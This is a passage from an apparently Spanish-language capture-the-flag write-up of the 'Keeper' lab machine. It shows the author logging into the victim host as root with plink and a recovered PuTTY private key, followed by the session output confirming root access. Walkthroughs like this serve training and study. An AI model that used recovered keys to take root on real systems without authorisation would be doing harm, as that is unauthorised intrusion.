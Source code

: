 ![](/assets/img/Keeper/image_19.png)

Nos `conectamos` a la `máquina víctima` como el usuario `root`

```
# plink -i id_rsa.ppk root@10.129.198.181 
The host key is not cached for this server:
  10.129.198.181 (port 22)
You have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w
If you trust this host, enter "y" to add the key to Plink's
cache and carry on connecting.
If you want to carry on connecting just once, without adding
the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) y
Using username "root".
Access granted. Press Return to begin session. 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
```

